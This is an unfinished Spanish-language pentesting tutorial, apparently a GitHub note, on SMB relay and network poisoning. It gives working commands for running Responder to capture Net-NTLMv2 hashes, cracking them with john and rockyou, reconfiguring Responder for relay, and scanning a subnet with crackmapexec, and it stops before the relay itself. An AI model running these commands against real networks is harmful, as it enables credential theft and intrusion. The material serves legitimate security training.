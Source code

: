 # ⚠️ EN PROCESO


# SMB relay tipico

Utilizaremos la herramienta Responder.py que encontramos en:
```bash
/usr/share/responder
``` 
> En caso de no tenerlo, podemos descargarlo desde [aqui](https://github.com/lgandx/Responder)

Estando en el directorio anterior podremos modificar la configuracion del responder.py en `Responder.conf` lo dejaremos por defecto. 

Ejecucion de la herramienta:
```bash
python3.9 Responder.py -I eth0 -rdw
```

- `-I` Indicamos la interfaz que usaremos.
- `-rdw`
  -  `r` Habilite las respuestas para las consultas de sufijos wredir de netbios. 
  -  `d` Habilite las respuestas para las consultas de sufijos de dominio netbios.
  -  `w` Iniciar el servidor proxy WPAD


Una vez ejecutada la herramienta estariamos envenenando toda la red. Como samba no esta firmado no se valida la legitimidad del origen. <br>
Por ejemplo, cuando un usuario acceda a un recurso compartido que no existe desde el responder pillamos la comunicacion y de paso el hash `Net-NTLMv2` del usuario.

Una vez obtenido los hashes, los copiamos a un nuevo fichero para luego atacarlos por fuerza bruta de manera offline.
Vamos a crackearlos con john:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

- `--wordlist` Indicamos el diccionario que queremos usar, en nuestro caso, rockyou
- `hashes` Nombre del fichero donde tenemos los hashes copiados.

# Envenenamiento IPV4

Modificamos el `Responder.conf`

```bash
nano /usr/share/responder/Responder.conf 
```

Ponemos en false SMB y HTTP
```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off <---
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off <---
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

En nuestro directorio de trabajo, creamos un archivo `targets.txt` e indicamos la direccion ip del equipo que queramos atacar. 
Para encontrar la ip utilizaremos crackmapexec:
```bash
crackmapexec smb 10.0.0.0/24
```
- `smb` Indicamos que queremos utilizar el protocolo samba
- `10.0.0.0` Direccion de red que queremos escanear
- `/24` Numero CIDR (mascara de subred), deberia ser 8 pero solo me ha funcionado con /24. 

